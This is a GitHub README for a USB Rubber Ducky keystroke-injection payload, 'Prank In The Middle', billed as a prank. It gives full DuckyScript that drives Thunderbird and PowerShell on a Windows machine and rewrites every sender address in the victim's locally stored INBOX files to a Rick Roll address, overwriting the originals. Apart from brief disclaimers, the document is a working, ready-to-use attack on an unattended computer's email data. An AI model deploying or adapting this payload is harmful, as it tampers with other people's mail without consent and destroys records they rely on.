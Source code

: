 # Prank In The Middle - Thunderbird

The name of the payload `Prank In The Middle` is named after the pun Prank + Man In The Middle in that this operation, in some ways, can remotely be configured as a MITM attack but since it was created specifically for playful purposes then here is the reason for the union with the word Prank.

**Category**: Prank

**Plug-And-Play** ^^

## Index

- [Description](#description)
- [Requirements](#requirements)
- [How the Program Works](#how-the-program-works)
- [Code Details](#code-details)
    - [System Detection && Short Start DELAY](#system-detection--short-start-delay)
    - [Navigating in Thunderbird](#navigating-in-thunderbird)
    - [Opening PowerShell and Email Manipulation](#opening-powershell-and-email-manipulation)
    - [The Regex](#the-regex)
- [Notes](#notes)
- [Credits](#credits)

## Description

This program automates a series of actions on a Windows system (*tested on Windows 10 but should works in Windows 11*) to manipulate the contents of emails found in a Thunderbird profile. Specifically, it identifies emails in the `INBOX` file of each configured email account and replaces the sender's email addresses with a fictitious address `Rick.Roll@tinyurl.com/prinkrollme` where `prinkrollme` is the union of the words `Prank`, `Rick Roll` and `Me` (*this one was necessary becouse prinkwoll era già stato preso* **:c** *so sad...* ) all compressed into the link `tinyurl.com/prinkrollme` ([*3° note*](#notes)) that redirect to the YouTube video `https://www.youtube.com/watch?v=xMHJGd3wwZk`.

![](https://i.ibb.co/VJjfbkJ/1.png)

## Requirements

- A Windows system with Thunderbird installed.
- Access to PowerShell.
- Permissions to run code in Powershell

## Test Environment

- Thunderbird 115.11.1 (64 bit)
- Windows 10 Pro

## How the Program Works

1. **System Detection:** The program detects if the system reflects the CAPSLOCK state and sets a dynamic delay based on this.
2. **Opening Thunderbird:** Uses a series of commands to open Thunderbird and navigate to the profile folder settings.
3. **Copying the Profile Folder Path:** Copies the profile folder path to the clipboard.
4. **Opening PowerShell:** Opens a PowerShell window and navigates to the `ImapMail` folder of the Thunderbird profile.
5. **Email Manipulation:** Uses PowerShell to:
   - Find all `INBOX` folders within `ImapMail`.
   - Read the contents of the emails in `INBOX`.
   - Replace the sender addresses with `Rick Roll <Rick.Roll@tinyurl.com/prinkrollme>`.
   - Save the modified content back to the original email files.

## Code Details

### System Detection && Short Start DELAY

```plaintext
EXTENSION DETECT_READY
    REM VERSION 1.1
    REM AUTHOR: Korben
    ...
    DEFINE #RESPONSE_DELAY 25
    DEFINE #ITERATION_LIMIT 120

    VAR $C = 0
    WHILE (($_CAPSLOCK_ON == FALSE) && ($C < #ITERATION_LIMIT))
        CAPSLOCK
        DELAY #RESPONSE_DELAY
        $C = ($C + 1)
    END_WHILE
    CAPSLOCK
END_EXTENSION
```

### Navigating in Thunderbird

```plaintext
WIN r
STRING thunderbird
ENTER
DELAY 1000
REPEAT 4 TAB
ENTER
DELAY 500
REPEAT 2 UPARROW
ENTER
DELAY 500
REPEAT 3 UPARROW
ENTER
DELAY 500
REPEAT 11 TAB
ENTER
DELAY 500
REPEAT 4 TAB
SPACEBAR
ENTER
CTRL c
ALT F4
```

### Opening PowerShell and Email Manipulation

```plaintext
WIN r
STRING powershell
ENTER
DELAY 1500
STRING cd 
CTRL v
ENTER

STRINGLN
    cd ImapMail
    $directories = Get-ChildItem -Directory | Select-Object FullName
    foreach ($dir in $directories) {
        $newPath = $dir.FullName -replace '\\', '/'
        $newPath += "/INBOX"
        if (Test-Path $newPath) {
            $emails = Get-Content -Path $newPath -Raw
            $modifiedEmails = $emails -replace "From:\s.*\s<(?:[a-z0-9!#$%&'*+/=?^_`{|}~-]+(?:\.[a-z0-9!#$%&'*+/=?^_`{|}~-]+)*|`"(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21\x23-\x5b\x5d-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])*`")@(?:(?:[a-z0-9](?:[a-z0-9-]*[a-z0-9])?\.)+[a-z0-9](?:[a-z0-9-]*[a-z0-9])?|\[(?:(?:(2(5[0-5]|[0-4][0-9])|1[0-9][0-9]|[1-9]?[0-9]))\.){3}(?:(2(5[0-5]|[0-4][0-9])|[1-9]?[0-9])|[a-z0-9-]*[a-z0-9]:(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21-\x5a\x53-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])+)\])>", "From: Rick Roll <Rick.Roll@tinyurl.com/prinkrollme>"
            Set-Content -Path $newPath -Value $modifiedEmails -Force
        }
    }
END_STRINGLN
DELAY 1000
ALT F4
```

### The Regex

The regex was not created from scratch but was taken from the discussion “[How can I validate an email address using a regular expression?](https://stackoverflow.com/questions/201323/how-can-i-validate-an-email-address-using-a-regular-expression)” posted on **StackOverflow**.

```plaintext
(?:[a-z0-9!#$%&'*+/=?^_`{|}~-]+(?:\.[a-z0-9!#$%&'*+/=?^_`{|}~-]+)*|`"(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21\x23-\x5b\x5d-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])*`")@(?:(?:[a-z0-9](?:[a-z0-9-]*[a-z0-9])?\.)+[a-z0-9](?:[a-z0-9-]*[a-z0-9])?|\[(?:(?:(2(5[0-5]|[0-4][0-9])|1[0-9][0-9]|[1-9]?[0-9]))\.){3}(?:(2(5[0-5]|[0-4][0-9])|[1-9]?[0-9])|[a-z0-9-]*[a-z0-9]:(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21-\x5a\x53-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])+)\])
```

The only difference is the addition of `**From: <...>**` which reduces to just the email addresses that sent the emails and not all addresses detected in the file that might depict other references

```plaintext
From:\s.*\s<...>
```

## Notes

1) This program was created for educational and demonstrative purposes. Unauthorized alteration of emails is illegal, and violating others' privacy is a crime.
2) Ensure you have the necessary permissions before running any script that modifies personal or sensitive data.
3) Considering [Staged Payloads](https://github.com/hak5/usbrubberducky-payloads?tab=readme-ov-file#staged-payloads), generally, it is not possible to include code that downloads from external sources. In this case, however, the setup involves a redirect to a YouTube video, which has been conveniently shortened using `tiny.url`. It is important to note that this redirect can be modified, and I strongly recommend changing it to a personal link for your security. While I assure you that I will never alter the link, no one can guarantee that I won't be compromised, allowing someone else to alter the redirect. It is always advisable and a good practice to never use links found online without understanding the actual redirect and replacing it with your own link.

## Credits

<h2 align="center"><a href="https://aleff-gitlab.gitlab.io/">Aleff</a></h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>